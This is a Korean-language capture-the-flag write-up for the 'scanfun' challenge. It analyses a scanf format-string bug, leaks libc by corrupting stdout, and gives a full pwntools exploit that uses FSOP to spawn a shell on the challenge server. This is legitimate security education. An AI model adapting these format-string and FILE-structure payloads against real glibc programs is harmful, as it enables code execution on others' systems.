

# scanfun

### 보호 기법



### 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>

void scan() {
    char scanner[0x50] = {0};
    while (1) {
        fprintf(stdout, "What do you want to scan?\n");
        scanf("%50s\n", scanner);
        scanf(scanner);
        
    }
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    
    printf("Welcome to The Scanner (TM)!!!\n");
    printf("A hint for you. Just a byte, no more [0x%hhx]\n", (((unsigned long)stdout) >> 16) & 0xFF);
    scan();
}
```

코드는 간단하다.

`main()`: stdout의 하위 3번째 바이트 값을 출력한다.

`scan()`: while문을 돌면서 50자까지 입력을 받은 후, `scanf()` FSB가 일어난다.

### libc leak

코드 자체에 출력하는 부분이 따로 없기 때문에, `stdout->_IO_write_base` 값을 수정하여 leak이 되도록 하는 방법을 사용하였다.

먼저 stdout의 주소는 다음과 같다.


FSB가 일어나는 순간의 stack을 살펴보면 다음과 같다.


0x7ffcd9298528 (`$rsp + 0xb8`) 를 보면, `stdout`의 상위 5바이트와 동일한 것을 확인할 수 있다.

그렇기에 하위 3바이트만큼 overwrite하게 되면 `stdout`을 가리키게 할 수 있다.

참고로, 앞서 `main()` 함수에서 `stdout`의 하위 3번째 byte값을 주었고, 하위 12비트 값은 고정이므로 이 경우 1/16 bruteforce를 수행하면 된다.

특히 0x7ffcd92984c0 (`$rsp + 0x50`) 를 보면,  0x7ffcd92984d0 (`$rsp + 0x60`)값이 저장되어 있기 때문에 이 값을 인자로 사용하여 overwrite하면 된다.

필요한 `scanf()` 함수의 호출 형식은 다음과 같다.

```c
scanf("%16$91c%*c");
```


참고로 stdout의 `_IO_write_base`, `_IO_write_ptr` 의 하위 1바이트 값은 0x03으로, 단순히 0x00값으로만 overwrite하는 것은 leak을 하기에 충분하지 않고, 그렇기에 하위 2바이트값을 덮어서 leak을 진행해야 한다.

이 경우에도 1/16 bruteforce가 필요한 것 같지만, 앞서 stack의 값을 덮는 것이 성공했다면 사실상 주소가 고정된 것이므로 bruteforce가 필요하지 않다.

필요한 `scanf()` 함수의 호출 형식은 다음과 같다.

```c
scanf("%29$34c%*c");
```

### FSOP

libc leak이 완료되었으니, 앞서 사용했던 인자를 활용하여 stdout을 통한 FSOP를 진행하면 된다.

필요한 scanf() 함수의 호출 형식은 다음과 같다.

```c
scanf("%29$232c%*c");
```

### 익스플로잇 코드

```python
from pwn import *

# r = process("./scanner_patched")
r = remote("scanfun.harkonnen.b01lersc.tf", 8443, ssl=True)

def scan(data):
    r.sendafter(b"scan?\n", data)

r.recvuntil(b"[0x")
stdout_byte = int(r.recvline()[:-2], 16)
r.success(f"stdout byte: {hex(stdout_byte)}")

### libc leak ###
# stack overwrite to indicate stdout, 1/16 bruteforce
payload = b"%16$91c%*c".ljust(50, b"\x00")
payload += b"A" * 88
payload += b"\x80\x77" + p8(stdout_byte) + b"\n"
scan(payload)

# stdout overwrite
payload = b"%29$34c%*c".ljust(50, b"\x00")
payload += p64(0xfbad3887)
payload += p64(0) * 3
payload += b"\xe8\x77"
payload += b"\n"
scan(payload)

libc_base = u64(r.recvn(6).ljust(8, b"\x00")) - 0x21aaa0
r.success(f"libc base: {hex(libc_base)}")

### FSOP ###
payload = b"%29$232c%*c".ljust(50, b"\x00")
payload += b"\x01\x01\x01\x01;sh;" # wide_data
# payload = b"/bin/sh\x00"
payload += p64(0)
payload += p64(libc_base + 0x50d70)
payload += p64(0) # wide_data->_IO_write_base == 0
payload += p64(0)
payload += p64(1)
payload += p64(0) # wide_data->_IO_buf_base == 0
payload += p64(0) * 10
payload += p64(libc_base + 0x21b780 - 0x30) # _lock
payload += p64(0xffffffffffffffff) # _offset
payload += p64(0)
payload += p64(libc_base + 0x21b780) # _wide_data
payload += p64(0) * 6
payload += p64(libc_base + 0x2170c0) # vtable
payload += p64(libc_base + 0x21b780 - 0x58) # vtable of wide_data
scan(payload)

r.interactive()
```

마지막 FSOP 부분은 p0her님의 코드를 활용하였다.